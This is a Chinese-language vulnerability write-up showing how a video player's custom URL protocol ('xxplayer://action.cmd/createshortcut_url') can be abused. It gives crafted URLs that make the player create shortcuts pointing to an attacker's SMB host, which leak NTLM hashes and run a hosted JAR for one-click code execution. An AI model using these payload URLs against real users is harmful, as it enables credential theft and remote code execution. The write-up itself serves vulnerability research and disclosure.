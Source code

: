 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57Nj4pmD5cibTbJicdw6tSDPTgRqENiaibCN5WSmhHic5SL3Ej9Kk2LYPa81koI4dx7203qSVr0I7Wq3CHw/640?wx_fmt=png&from=appmsg "")  
  
发现这里可以通过xxplayer://action.cmd/xxx  
的方式来触发一些功能，所有功能列表如下所示：  
```
xxplayer://action.cmd/playShareVideo
xxplayer://action.cmd/play
xxplayer://action.cmd/downloadvideo
xxplayer://action.cmd/downloadpage
xxplayer://action.cmd/downloadShareVideo
xxplayer://action.cmd/createshortcut_url
xxplayer://action.cmd/createshortcut
xxplayer://action.cmd/activeHomepage
```  
  
根据字面意思理解它的作用即可，这里我们一个一个带入请求尝试，发现当请求createshortcut_url时会在桌面创建.link的快捷方式文件。  
  
我们跟进这个创建快捷方式的逻辑，发现实际上它还有两个参数：url、name：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57Nj4pmD5cibTbJicdw6tSDPTgeI2SAiawicUD6zAoxtPEDN4jqHyQ4A4ibJn3aib4awOKZO1IvGQCPM7Nhg/640?wx_fmt=png&from=appmsg "")  
  
然后将这两个参数值带入CreateUrlShortcut  
函数执行，这个函数是导入函数，就是用于创建桌面快捷方式的。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57Nj4pmD5cibTbJicdw6tSDPTgQtK6aAjthaKKNYypBUMv6TXP4aib4LiaZI0Gr0CDJHLeJwHYRKG9jCMQ/640?wx_fmt=png&from=appmsg "")  
  
因此我们可以构建伪协议URL：xxplayer://action.cmd/createshortcut_url?url=http://www.baidu.com&name=Test，访问就发现它创建了一个名为Test的快捷方式，目标为：C:\xxplayer.exe \UrlQuickLunch=http://www.baidu.com,0，也就表示我们传入的url参数值变成了启动参数，name参数值变成了快捷方式名字。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57Nj4pmD5cibTbJicdw6tSDPTgO2wukurx0VY2y5KwAYDLFct0Vs6ooKzoUYeoIrGKBzjxpKSeeribLpg/640?wx_fmt=png&from=appmsg "")  
  
当我们双击这个快捷方式时，就会调用浏览器打开http://www.baidu.com。  
  
接着我们发现只要url参数值为xxx://xxx.xxx/的格式即可，那么我们尝试将url参数值修改为file://172.16.176.176/netntlm，也就变成这样：xxplayer://action.cmd/createshortcut_url?url=file://172.16.176.176/netntlm&name=123，在机器上responder监听一下，当打开快捷方式时收到了NTLM Hash：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57Nj4pmD5cibTbJicdw6tSDPTgjiaYGutmSeaXGVe8v4UjycAMiaianFbTQias5OIpVwDicADCQ912SFn5k7w/640?wx_fmt=png&from=appmsg "")  
  
除了获取NTLM Hash，我们还可以在Ubuntu上开一个SMB服务，然后将url  
参数设为使用\\172.16.176.176\share\Test.exe  
，使用快捷方式打开共享文件，发现确实可以打开EXE文件，但是会有文件信任的安全警告（Mark-of-the-Web）。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57Nj4pmD5cibTbJicdw6tSDPTgsI31QPpbeWDRtoNb1hkBFicf0sAnwFibLzd3wdRvlgGebibETIHSTOymA/640?wx_fmt=png&from=appmsg "")  
  
这里可以通过jar文件形式去绕过，打包一个打开计算器的Jar包放在共享目录下，然后将url参数设为使用\\172.16.176.176\share\1.jar。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57Nj4pmD5cibTbJicdw6tSDPTgaIt4dicS1COb8oFW0XYpQ7bpE04qHbuWsbib14Jl5FEicuj4LPUccnicNA/640?wx_fmt=png&from=appmsg "")  
  
访问xxplayer://action.cmd/createshortcut_url?url=\\172.16.176.225\share\1.jar&name=123  
，创建快捷方式，打开快捷方式，执行Jar包启动计算器，这样我们就实现了1 Click执行任意命令。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57Nj4pmD5cibTbJicdw6tSDPTgdszIleP32aXtZG8pPym29cwvp4hDhvZMjuZHdOHOOibOxE6KViaC7N2g/640?wx_fmt=png&from=appmsg "")  
  